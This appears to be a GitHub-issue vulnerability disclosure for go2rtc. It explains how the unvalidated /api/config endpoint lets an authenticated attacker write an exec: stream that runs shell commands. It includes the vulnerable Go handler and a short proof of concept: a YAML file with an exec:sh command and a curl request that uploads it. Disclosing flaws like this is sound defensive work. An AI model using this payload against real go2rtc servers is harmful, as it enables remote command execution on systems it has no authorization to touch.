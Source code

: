 # Go2RTC Remote Code Execution

## 1.Description
The Go2RTC configuration management API endpoint (/api/config) contains an arbitrary configuration write vulnerability. Authenticated attackers can submit malicious YAML configurations through this endpoint, bypassing semantic validation and writing dangerous configurations to the system. When the system loads these configurations and accesses the associated streams, arbitrary system commands can be executed through the `exec:` protocol, leading to remote code execution (RCE).

## 2.Affected Versions
All versions of go2rtc that include the configuration API endpoint with the described behavior.

## 3. Root Cause
### 3.1 Fundamental Cause
The root cause of the vulnerability lies in the `configHandler` function in the `internal/api/config.go` file, which lacks semantic validation of configuration content. The system only validates the correctness of YAML syntax but does not check the security of the configuration content.

### 3.2 Vulnerable Code Analysis
```go
// Fragment of configHandler function in internal/api/config.go
case "POST", "PATCH":
    // Read raw user input without content validation
    data, err := io.ReadAll(r.Body)
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    if r.Method == "PATCH" {
        // Merge YAML without content validation
        data, err = mergeYAML(app.ConfigPath, data)
        if err != nil {
            http.Error(w, err.Error(), http.StatusBadRequest)
            return
        }
    } else {
        // Only validate YAML syntax, not content security
        if err = yaml.Unmarshal(data, map[string]any{}); err != nil {
            http.Error(w, err.Error(), http.StatusInternalServerError)
            return
        }
    }

    // Directly write unvalidated configuration file
    if err = os.WriteFile(app.ConfigPath, data, 0644); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
```

### 3.3 Execution Chain
1. Attacker sends malicious YAML configuration to `/api/config`
2. Server only validates YAML syntax, not content security
3. Malicious configuration is directly written to configuration file
4. System registers `exec:` protocol handler when loading new configuration
5. Command execution is triggered when user accesses stream

## 4.PoC
Step 1: Create malicious configuration
   ```malicious_config.yaml
   streams:
     malicious_stream: exec:sh -c "whoami>/tmp/poc1.txt"
   ```
Step 2: Upload malicious configuration
```
curl -X POST "http://localhost:1984/api/config" \
  -H "Content-Type: application/yaml" \
  -d "$(cat malicious_config1.yaml)" \
  -w "HTTP Status: %{http_code}\n"
```

## 5. Vulnerability Impact

- **Remote Code Execution**: Attackers can execute arbitrary system commands
- **Privilege Escalation**: Commands execute with Go2RTC process privileges
- **Persistent Access**: Configuration changes persist after system reboot
- **Data Leakage**: Access to sensitive system files and data
- **Service Denial**: Resource exhaustion commands can cause service disruption

---------------------
#### Link: https://github.com/AlexxIT/go2rtc/issues/1878
